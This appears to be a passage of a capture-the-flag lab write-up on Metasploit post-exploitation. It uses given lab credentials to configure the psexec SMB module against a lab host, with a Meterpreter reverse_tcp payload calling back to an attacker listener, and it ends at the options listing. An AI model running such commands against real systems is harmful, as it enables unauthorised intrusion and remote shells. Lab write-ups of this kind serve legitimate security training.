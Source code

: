 ## Task 4 - Post-Exploitation with Meterpreter
This section includes a brief discussion on some of the more common commands used during engagements. Nothing further needs to be added here.

## Task 5 - Post Exploitation Challenge
We are provided with initial credentials which we can use to compromise SMB as suggested: `ballen:Password1`.

Let's go ahead and open Metasploit using the `msfconsole` command. Since we are advised that our initial foothold can be established by exploiting the SMB service, lets go ahead and use the `exploit/windows/smb/psexec` exploit with the provided credentials.

This module uses a valid username and password (or password hash) to execute an arbitrary payload.

```console
msf6 > use exploit/windows/smb/psexec 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > set rhost 10.10.244.120
rhost => 10.10.244.120
msf6 exploit(windows/smb/psexec) > set smbuser ballen
smbuser => ballen
msf6 exploit(windows/smb/psexec) > set smbpass Password1
smbpass => Password1
msf6 exploit(windows/smb/psexec) > set lhost 10.13.17.49
lhost => 10.13.17.49
msf6 exploit(windows/smb/psexec) > show options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                10.10.244.120    yes       The target host(s), see https://docs.metasploit.com/docs/using
                                                    -metasploit/basics/using-metasploit.html
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass               Password1        no        The password for the specified username
   SMBSHARE                               no        The share to connect to, can be an admin share (ADMIN$,C$,...)
                                                     or a normal read/write folder share
   SMBUser               ballen           no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.13.17.49      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


```